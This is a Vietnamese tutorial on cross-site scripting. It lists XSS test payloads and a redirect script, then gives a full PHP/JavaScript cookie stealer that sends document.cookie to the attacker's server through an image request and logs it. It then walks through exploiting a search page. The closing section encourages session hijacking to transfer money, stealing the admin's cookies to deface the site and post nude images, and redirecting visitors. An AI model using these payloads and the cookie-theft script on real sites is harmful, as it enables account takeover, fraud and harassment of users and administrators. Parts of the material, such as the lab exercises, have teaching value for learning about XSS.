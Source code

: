 # A3-Cross-Site Scripting (XSS)

- ** [ khái quát về xss](#1)**
- ** [ các đoạn js truyền vào để check lỗi](#2)**
- **[ thực hành trên lab](#3)**
- **[ Cách tấn công và hạ gục 1 trang web bằng xss](#4)**

<a name="1"></a>
## khái quát
XSS được viết tắt bởi Cross-Site-Scripting. Nó là một phương pháp tấn công cơ bản. Nó dựa trên việc thực thi HTML và JavaScript trên một trang web. Việc tấn công này có thể xảy ra khi xác nhận những lệnh ở các text-box, hoặc cũng có thể là trên thanh URL. Những kết quả được đọc dưới dạng HTML, vì vậy nó sử dụng một vài thủ thuật Social-Engineering để tác động đến 1 ai đó tải một virus mà chính bạn đã tạo ra, và là tiềm năng cho một botnet, hoặc RAT, cũng có thể là 1 keylogger. XSS có thể trở nên rất nguy hiểm, Nhưng cũng có thể rất vô hại.
### gồm 3 loại
- STORED-XSS :  chèn đoạn js thông qua lưu trữ , vd gửi tn đến admin

-  REFLECTED-XSS: Khác với Stored-XSS, Reflected-XSS đoạn mã khai thác sẽ không được lưu trữ trên server , chèn js vào mục tìm kiến hay cmt...

- xss dom based : chưa nắm rõ
<a name="2"></a>

## các đoạn mã check lỗi:tham khảo tại [đây](https://www.youtube.com/watch?v=Iu3QtMy9cpg&index=2&list=PL1A2CSdiySGIRec2pvDMkYNi3iRO89Zot#t=1.464711)
```

"><script>alert("XSS")</script>
"><script>alert(String.fromCharCode(88,83,83)) </script>
'><script>alert("XSS")</script>
'><script>alert(String.fromCharCode(88,83,83))</script>
<ScRIPt>aLeRT("XSS")</ScRIPt>
<ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
"><ScRIPt>aLeRT("XSS")</ScRIPt>
"><ScRIPt<aLeRT(String.fromCharCode(88,83,83)) </ScRIPt>
'><ScRIPt>aLeRT("XSS")</ScRIPt>
'><ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
</script><script>alert("XSS")</script>
</script><script>alert(String.fromCharCode(88,83,83) )</script>
"/><script>alert("XSS")</script>
"/><script>alert(String.fromCharCode(88,83,83))</script>
'/><script>alert("XSS")</script>
'/><script>alert(String.fromCharCode(88,83,83))</script>
</SCRIPT>"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>"><SCRIPT>alert(String.fromCharCode(88,83,8 3))
</SCRIPT>">"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83 ,83))</SCRIPT>
";alert("XSS");"
";alert(String.fromCharCode(88,83,83));"
';alert("XSS");'
';alert(String.fromCharCode(88,83,83));'
";alert("XSS")
";alert(String.fromCharCode(88,83,83))
';alert("XSS")
';alert(String.fromCharCode(88,83,83))

câu lệnh chuyển tiếp
<script>window.location.href = "http://www.trang-mới.com"</script>

```
 - đoạn PHP get cookie
 
 ```
 <?php
/*
* Created on 16. april. 2007 Được tạo ngày 16/8/2007
* Created by Audun Larsen (audun@munio.no)- Tác giả-
*
* Copyright 2006 Munio IT, Audun Larsen
*
* THIS SOFTWARE IS PROVIDED BY THE AUTHOR ``AS IS'' AND ANY EXPRESS OR IMPLIED WARRANTIES,
* INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS
* FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE AUTHOR OR CONTRIBUTORS BE LIABLE
* FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
* (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS;
* OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
* OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE,
* EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
*/

if(strlen($_SERVER['QUERY_STRING']) > 0) {
$fp=fopen('./CookieLog.txt', 'a');
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])."\n");
fclose($fp);
} else {
?>

var ownUrl = 'http://<?php echo $_SERVER['HTTP_HOST']; ?><?php echo $_SERVER['PHP_SELF']; ?>';

// ==
// URLEncode and URLDecode functions
//
// Copyright Albion Research Ltd. 2002
// http://www.albionresearch.com/
//
// You may copy these functions providing that
// (a) you leave this copyright notice intact, and
// (b) if you use these functions on a publicly accessible
// web site you include a credit somewhere on the web site
// with a link back to http://www.albionresearch.com/
//
// If you find or fix any bugs, please let us know at albionresearch.com
//
// SpecialThanks to Neelesh Thakur for being the first to
// report a bug in URLDecode() - now fixed 2003-02-19.
// And thanks to everyone else who has provided comments and suggestions.
// ==
function URLEncode(str)
{
// The Javascript escape and unescape functions do not correspond
// with what browsers actually do...
var SAFECHARS = "0123456789" + // Numeric
"ABCDEFGHIJKLMNOPQRSTUVWXYZ" + // Alphabetic
"abcdefghijklmnopqrstuvwxyz" +
"-_.!~*'()"; // RFC2396 Mark characters
var HEX = "0123456789ABCDEF";

var plaintext = str;
var encoded = "";
for (var i = 0; i < plaintext.length; i++ ) {
var ch = plaintext.charAt(i);
if (ch == " ") {
encoded += "+"; // x-www-urlencoded, rather than %20
} else if (SAFECHARS.indexOf(ch) != -1) {
encoded += ch;
} else {
var charCode = ch.charCodeAt(0);
if (charCode > 255) {
alert( "Unicode Character '"
+ ch
+ "' cannot be encoded using standard URL encoding.\n" +
"(URL encoding only supports 8-bit characters.)\n" +
"A space (+) will be substituted." );
encoded += "+";
} else {
encoded += "%";
encoded += HEX.charAt((charCode >> 4) & 0xF);
encoded += HEX.charAt(charCode & 0xF);
}
}
} // for

return encoded;
};

cookie = URLEncode(document.cookie);
html = '<img src="'+ownUrl+'?'+cookie+'">';
document.write(html);

< ?php
}
?>
``` 
<a name="3"></a>
## lab 

**XSS - Reflected (GET),XSS - Reflected (POST)**
<img src="http://image.prntscr.com/image/c5611150478940c799cc3e47046a8965.png">

**XSS - Reflected (JSON)** chú ý , câu lệnh mở đầu để đóng cho phù hợp, ;`prompt("hiện khung nhập")`
<img src="http://image.prntscr.com/image/01053693841144838dff6e57136cd5be.png">

**XSS - Stored (User-Agent)**

<img src="http://image.prntscr.com/image/d26603cff35b44dda6efe9c057ce7b68.png">


<a name="4"></a>

## cách tấn công và hạ gục 1 trang web bằng xss!( thực ra chỉ check lỗi thôi :trollface: )

**B1** check lỗi: thưởng thì mình hay nhập `<xss>` để kiểm tra :

<img src="http://image.prntscr.com/image/16a6b9342eab4ea6a14ae64ea17578b7.png">

trong trường hợp này từ khóa tìm kiếm được đưa vào tất cả , không bị lọc hay mã hóa gì cả ! mình khẳng định 99,69% bị dính xss! 

**B2** nhập 1 đoạn script huyền cmn thoại! `<script>alert("xss")</script`

<img src="http://image.prntscr.com/image/8940ce62ade34bc28dfc70c71588a9fa.png">

  trời địu ! sao nó méo nhảy ra bảng thông báo xss, đờ mờ , té thôi ! đấy nếu là người khác thì người ta sẽ nghĩ thế , còn mình thì không . mình liền kiểm tra source của nó ,

  <img src="http://image.prntscr.com/image/a73a3645d3c942be80138b9eb713054c.png">

   ở đây trước đoạn js có 1 thẻ title á đìu , vậy chỉ cần đóng thẻ đó lại và truyền js vào thôi!

  **B3** tuyệt chiêu kết thúc nó!
  <img src="http://image.prntscr.com/image/050d3eb04a9b4ceb91bf0c45298cd763.png">

  headshot! :v 

  kiểm tra thử cookie nào 

  <img src="http://image.prntscr.com/image/047f93d1296443ef8e35d898bdbb33d5.png">

  **B4** bạn có thể làm gì khi thấy 1 site dính xss!( cái này theo ý nghĩ của mình)
 
  - chiếm quyền đăng nhập , bằng cách chèn vào 1 đoạn script lấy cookie của người dùng, sau đó đăng nhập dưới danh nghĩa người dùng và làm chuyện ấy :trollface: ( chuyển tiền , mua hàng ...)

  - hoặc đơn giản hơn , lấy cookie thằng admin , thằng này phải đem ra xử bắn đầu tiên khi site dính lỗi! sau khi lấy cookie và đăng nhập với tư cách admin , bạn có để deface web của nó , post clip 69, ảnh nude thằng ad( khuyến khích=)) ), 

  - và đơn giản hơn , chèn 1 đoạn chuyển hướng về web của bạn , tăng lượt view, =))

  ** đặc biệt , tất cả cách trên đều phải gửi đoạn js cho người dùng hoặc thằng ad, cách tấn công này gọi là `REFLECTED-XSS` **
